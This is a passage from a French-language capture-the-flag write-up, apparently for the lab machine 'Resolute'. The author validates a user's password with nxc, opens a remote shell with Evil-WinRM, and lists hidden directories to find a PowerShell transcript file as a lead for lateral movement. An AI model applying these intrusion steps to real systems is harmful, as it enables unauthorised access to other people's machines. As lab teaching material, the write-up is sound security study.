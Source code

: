 
![nxc](https://i.ibb.co/qdxkgmF/pic1.png)

Avec `nxc` j'ai eu `melanie` comme etant valides avec le mot de passe que j'ai trouver. Donc Avec cet utilisateur je vais me connecter au `winrm` comme c'est deja ouvert pour voir.

![Hacked](https://i.ibb.co/tqx0tH0/pic2.png)


**Mouvement Lateral**
Pour faire un Mouvement Lateral a partir de cet utilisateur vers un autre utilisateur, je vais d'abord me rendre au repertoire `C:\`

```sh
*Evil-WinRM* PS C:\> dir -force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-         3/9/2024   7:49 PM      402653184 pagefile.sys
```

A partir de ceci je trouve un fichier cachee `PSTranscripts`

```sh
*Evil-WinRM* PS C:\PSTranscripts> dir -force


    Directory: C:\PSTranscripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203


*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt


*Evil-WinRM* PS C:\PSTranscripts\20191203> 

```